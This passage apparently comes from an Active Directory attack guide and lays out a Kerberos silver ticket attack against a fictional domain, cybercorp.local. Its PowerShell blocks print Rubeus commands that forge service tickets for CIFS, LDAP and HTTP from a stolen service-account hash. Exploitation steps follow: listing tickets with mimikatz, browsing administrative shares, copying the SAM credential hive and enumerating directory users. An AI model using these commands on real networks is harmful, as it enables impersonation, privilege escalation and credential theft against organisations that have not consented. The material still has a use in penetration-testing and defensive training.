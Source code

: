 #### **Rubeus Silver Ticket Creation**
```powershell
# Rubeus Silver Ticket creation
Write-Host "=== RUBEUS SILVER TICKET CREATION ===" -ForegroundColor Green

Write-Host "Rubeus Silver Ticket Commands:" -ForegroundColor Yellow

Write-Host "`n1. CIFS Service Ticket:" -ForegroundColor Cyan
Write-Host "   Rubeus.exe s4u /user:Administrator /rc4:SERVICE_HASH /impersonateuser:Administrator /msdsspn:CIFS/FILE01.cybercorp.local /ptt" -ForegroundColor White

Write-Host "`n2. LDAP Service Ticket:" -ForegroundColor Cyan
Write-Host "   Rubeus.exe s4u /user:Administrator /rc4:SERVICE_HASH /impersonateuser:Administrator /msdsspn:LDAP/DC01.cybercorp.local /ptt" -ForegroundColor White

Write-Host "`n3. HTTP Service Ticket:" -ForegroundColor Cyan
Write-Host "   Rubeus.exe s4u /user:Administrator /rc4:SERVICE_HASH /impersonateuser:Administrator /msdsspn:HTTP/WEB01.cybercorp.local /ptt" -ForegroundColor White

Write-Host "`n4. Export Service Ticket:" -ForegroundColor Cyan
Write-Host "   Rubeus.exe s4u /user:Administrator /rc4:SERVICE_HASH /impersonateuser:Administrator /msdsspn:CIFS/FILE01.cybercorp.local /outfile:silver.kirbi" -ForegroundColor White

Write-Host "`nParameter Explanation:" -ForegroundColor Yellow
Write-Host "  /user: Service account username" -ForegroundColor Gray
Write-Host "  /rc4: Service account NTLM hash" -ForegroundColor Gray
Write-Host "  /impersonateuser: Target username for impersonation" -ForegroundColor Gray
Write-Host "  /msdsspn: Target service SPN" -ForegroundColor Gray
Write-Host "  /ptt: Pass the ticket to current session" -ForegroundColor Gray
Write-Host "  /outfile: Export ticket to file" -ForegroundColor Gray
```

### **3. Silver Ticket Exploitation**

#### **Service-Specific Access Exploitation**
```powershell
# Silver Ticket exploitation for service access
Write-Host "=== SILVER TICKET EXPLOITATION ===" -ForegroundColor Green

Write-Host "Exploitation Commands:" -ForegroundColor Yellow

Write-Host "`n1. Verify Silver Ticket:" -ForegroundColor Cyan
Write-Host "   klist" -ForegroundColor White
Write-Host "   mimikatz # kerberos::list" -ForegroundColor White
Write-Host "   Rubeus.exe tgtdeleg" -ForegroundColor White

Write-Host "`n2. CIFS Service Access:" -ForegroundColor Cyan
Write-Host "   # Access file shares" -ForegroundColor Gray
Write-Host "   dir \\\\FILE01.cybercorp.local\C$" -ForegroundColor White
Write-Host "   dir \\\\FILE01.cybercorp.local\Shares" -ForegroundColor White
Write-Host "   # Copy files" -ForegroundColor Gray
Write-Host "   copy \\\\FILE01.cybercorp.local\C$\Windows\System32\config\sam C:\temp\sam" -ForegroundColor White

Write-Host "`n3. LDAP Service Access:" -ForegroundColor Cyan
Write-Host "   # Query Active Directory" -ForegroundColor Gray
Write-Host "   Get-ADUser -Server DC01.cybercorp.local -Filter *" -ForegroundColor White
Write-Host "   Get-ADComputer -Server DC01.cybercorp.local -Filter *" -ForegroundColor White

Write-Host "`n4. HTTP Service Access:" -ForegroundColor Cyan
Write-Host "   # Access web services" -ForegroundColor Gray
Write-Host "   Invoke-WebRequest -Uri \"http://WEB01.cybercorp.local\" -UseDefaultCredentials" -ForegroundColor White
Write-Host "   # Access web applications" -ForegroundColor Gray
```